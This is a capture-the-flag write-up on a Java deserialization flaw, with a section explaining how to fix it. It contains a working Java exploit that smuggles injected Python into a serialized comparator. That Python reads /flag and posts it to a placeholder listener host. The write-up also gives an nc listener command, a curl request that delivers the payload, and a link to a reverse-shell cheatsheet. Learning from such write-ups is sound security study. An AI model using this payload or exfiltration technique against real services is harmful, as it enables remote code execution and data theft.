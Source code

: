 # Deserialization 101

## Vulnerability
The service deserialises User Input

## Exploitation
Reusing the code template available in the slides, we can write the following exploit, replacing <HOST:PORT> by a server listening at the given port (`nc -lvnp <PORT>`).
The Python payload could be replaced by a Reverse Shell payload to get a shell on the server. Some examples can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```java
package deserialization101;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.concurrent.ConcurrentSkipListSet;

public class Exploit {

    public static void main(String[] args) throws Exception {
        System.out.println(createMaliciousObject());
    }

    public static String createMaliciousObject() throws Exception {
        CustomComparator customComparator = new CustomComparator(");import http.client;conn = http.client.HTTPSConnection(\"<HOST:PORT>\");conn.request(\"POST\",\"/\", '{}'.format(open('/flag').read().strip()), {'Content-Type': 'application/json'});#");
        var giveMeAnRCE = new ConcurrentSkipListSet<>(customComparator);
        giveMeAnRCE.add(1);
        giveMeAnRCE.add(2);

        var baos = new ByteArrayOutputStream();
        var oos = new ObjectOutputStream(baos);

        oos.writeObject(giveMeAnRCE);
        var bytes = baos.toByteArray();

        oos.close();
        baos.close();

        return Base64.getEncoder().encodeToString(bytes);
    }
}
```

The constructor of `CustomComparator` only allows Strings containing a single character.
When deserializing, the object was already "constructed", the JVM will use the method `readObject` instead of going through the constructor. So to build our payload, we can update the constructor to allow more than just a single character.

We can then open our listener on our server: `nc -lvnp <PORT>` and request the service with our malicious payload:
```bash
curl --request POST \
  --url http://localhost:80/game1 \
  --header 'Content-Type: text/plain' \
  --data '<Payload>'
```

## Fix
Multiple fix could avoid this problem:
* We should expect an Integer instead of a serialized Integer.
* We could create our own ObjectInputStream to limit the kind of classes that can be deserialized, overriding the method resolveClass.
* We could have overriden the method `readObject` in `CustomComparator` to check the operator has only a single character (same condition as in the constructor).

For more details, you can read this [blog](https://www.redhat.com/en/blog/jdk-approach-address-deserialization-vulnerability) article from Red Hat.

